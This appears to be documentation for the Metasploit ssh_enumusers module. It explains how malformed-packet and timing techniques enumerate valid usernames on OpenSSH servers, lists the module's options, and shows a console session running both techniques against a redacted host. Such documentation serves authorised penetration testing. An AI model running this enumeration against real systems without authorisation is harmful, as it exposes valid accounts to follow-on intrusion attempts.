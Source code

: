 ## Introduction

This module uses a malformed packet or timing attack to enumerate users on
an OpenSSH server.

Testing note: invalid users were logged, while valid users were not. YMMV.

## Actions

**Malformed Packet**

The default action sends a malformed (corrupted) `SSH_MSG_USERAUTH_REQUEST`
packet using public key authentication (must be enabled) to enumerate users.

**Timing Attack**

On some versions of OpenSSH under some configurations, OpenSSH will return a
"permission denied" error for an invalid user faster than for a valid user,
creating an opportunity for a timing attack to enumerate users.

## Options

### USERNAME

Single username to test (username spray).

### USER_FILE

File containing usernames, one per line.

### THRESHOLD

Amount of seconds needed before a user is considered found (timing attack only).

### CHECK_FALSE

Check for false positives (random username).

## Usage

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf auxiliary(scanner/ssh/ssh_enumusers) > set rhosts [redacted]
rhosts => [redacted]
msf auxiliary(scanner/ssh/ssh_enumusers) > echo $'wvu\nbcook' > users
[*] exec: echo $'wvu\nbcook' > users

msf auxiliary(scanner/ssh/ssh_enumusers) > set user_file users
user_file => users
msf auxiliary(scanner/ssh/ssh_enumusers) > set verbose true
verbose => true
msf auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using malformed packet technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_enumusers) > set action Timing Attack
action => Timing Attack
msf auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using timing attack technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_enumusers) > creds
Credentials
===========

host         origin       service       public  private  realm  private_type
----         ------       -------       ------  -------  -----  ------------
[redacted]   [redacted]   22/tcp (ssh)  wvu

msf auxiliary(scanner/ssh/ssh_enumusers) >
```
